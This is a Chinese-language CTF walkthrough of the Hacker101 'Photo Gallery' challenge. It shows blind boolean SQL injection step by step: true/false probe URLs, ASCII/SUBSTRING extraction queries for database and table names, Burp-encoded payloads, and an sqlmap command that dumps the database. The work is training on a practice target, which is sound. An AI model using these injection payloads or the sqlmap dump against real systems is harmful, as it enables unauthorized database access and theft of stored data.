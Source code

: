```yaml
---
title: hacker101-photo gallery
date: 2019-07-04 10:50:55
tags: 
category: walkthrough
---
```

无回显的 Boolean 型 SQL 注入
<!-- more -->
# 测试
```
http://35.190.155.168/1a4eaa7b69/fetch?id=1 ==> 200
http://35.190.155.168/1a4eaa7b69/fetch?id=1' and 1=1-- ==> 500
http://35.190.155.168/1a4eaa7b69/fetch?id=1" and 1=1-- ==> 500
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and 1=1-- ==> 200
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and 1=2-- ==> 404
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and LENGTH(database())=1 -- => 404
...
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and LENGTH(database())=6 -- => 200

```

# 渗透
1. 找出当前表字段
```
http://35.190.155.168/1a4eaa7b69/fetch?id=1%20%20order%20by%201%23 => 200

and order by 1 #

当前表只有一个字段
```
2. 找出数据库名
```
select ascii(substring((select database()),[0-9],1))=[ascii码];
```

3. 找出表名
```
select table_name from information_schema.tables where table_schema="blog" limit 0,1 ; # 第一张表
select table_name from information_schema.tables where table_schema="blog" limit 1,1 ; # 第二张表
```

4. 找出用户名和密码
```
select ascii(substring((select user()),[0-9],1))=[ascii码];
```

# walkthrough 
1. 直接使用 burp 进行测试,其请求的 url 构造如下
```
%20and%20(select%20ascii(substring((select%20database()),1,1)))=11--
```
![photo1](/postimg/photo1-1.PNG)
![photo1](/postimg/photo1-2.PNG)
![photo1](/postimg/photo1-3.PNG)
![photo1](/postimg/photo1-4.PNG)
![photo1](/postimg/photo1-5.PNG)

第一步结果得出数据库名为 `level5`

2. 得出当前表名，其 url 构造如下
```
%20and%20(select%20ascii(substring((select table_name from information_schema.tables where table_schema="level5" limit 0,1),$_$,1)))=$_$ --
```

得出第一张的表名：albums

3. 使用 sqlmap 进行渗透
```
python sqlmap.py -u http://35.227.24.107/bb66c5a931/fetch\?id\=2 -p id -o --random-agent -D level5 --dump --threads 10
```